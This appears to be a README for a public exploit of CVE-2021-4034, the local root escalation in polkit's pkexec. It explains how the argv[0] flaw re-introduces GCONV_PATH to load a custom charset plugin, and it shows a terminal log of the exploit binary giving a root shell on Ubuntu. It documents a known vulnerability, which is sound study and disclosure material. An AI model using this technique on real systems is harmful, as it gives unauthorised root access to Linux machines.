 # CVE: CVE-2021-4034
## Short description: Local Privilege Escalation in polkit’s pkexec


This exploit targets a setuid binary /usr/bin/pkexec, installed ubiquitously on linux systems. It leverages a few things:

1. insufficient check of argv[0] in pkexec. This allows to overwrite the environment variables.
2. Some environment variables like GCONV_PATH are privileged. If you can set them you can control a binary by executing arbitrary code. These special environment variables are stripped from setuid binaries for that reason. However, with the pkexec vulnerability we can undo the stripping and readd back a special environment variable.
3. GCONV_PATH variable allows to speciy a custom plugin to convert between charsets. 
4. Each time g_printerr() function prints an message, a conversion is triggered using my custom conversion plugin.
5. Triggering g_printerr() is simple: we pass in a nonexistent SHELL environment variable.


Log from my ubuntu test machine:


```
$ lsb_release -a
No LSB modules are available.
Distributor ID:	Ubuntu
Description:	Ubuntu 18.04.4 LTS
Release:	18.04
Codename:	bionic
$
$ ./main
Get effective uid: : 0
Setting real effective user id to 0... it returned: 0
bash: groups: command not found
Command 'lesspipe' is available in the following places
 * /bin/lesspipe
 * /usr/bin/lesspipe
The command could not be located because '/usr/bin:/bin' is not included in the PATH environment variable.
lesspipe: command not found
Command 'dircolors' is available in '/usr/bin/dircolors'
The command could not be located because '/usr/bin' is not included in the PATH environment variable.
dircolors: command not found
# /usr/bin/id
uid=0(root) gid=1001(ubuntu) groups=1001(ubuntu),4(adm),20(dialout),24(cdrom),25(floppy),27(sudo),29(audio),30(dip),44(video),46(plugdev),108(lxd),114(netdev)
#
```
